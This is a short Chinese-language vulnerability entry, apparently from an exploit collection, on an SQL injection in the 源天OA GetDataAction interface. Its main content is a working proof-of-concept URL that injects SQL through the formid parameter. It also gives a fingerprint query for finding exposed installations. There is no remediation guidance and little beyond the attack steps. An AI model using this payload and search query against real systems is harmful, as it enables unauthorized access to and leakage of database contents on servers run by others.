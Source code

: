 # 源天OA GetDataAction SQL注入漏洞

## 漏洞描述

源天OA GetDataAction 接口存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的数据，造成信息泄漏

## 漏洞影响

<a-checkbox checked>源天OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/vmain/login.jsp"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1663996343936-60b88623-1eb8-4674-8c7d-a02711370fe7.png)

验证POC

```sql
/ServiceAction/ServiceAction/com.velcro.base.GetDataAction?action=checkname&formid=-1%27%20OR%207063%20IN%20(SELECT%20(sys.fn_varbintohexstr(hashbytes(%27MD5%27,%271%27))))%20AND%20%27a%27=%27a
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1663996456021-f64802b1-a401-4357-a37e-7bb2a8e1d52e.png)
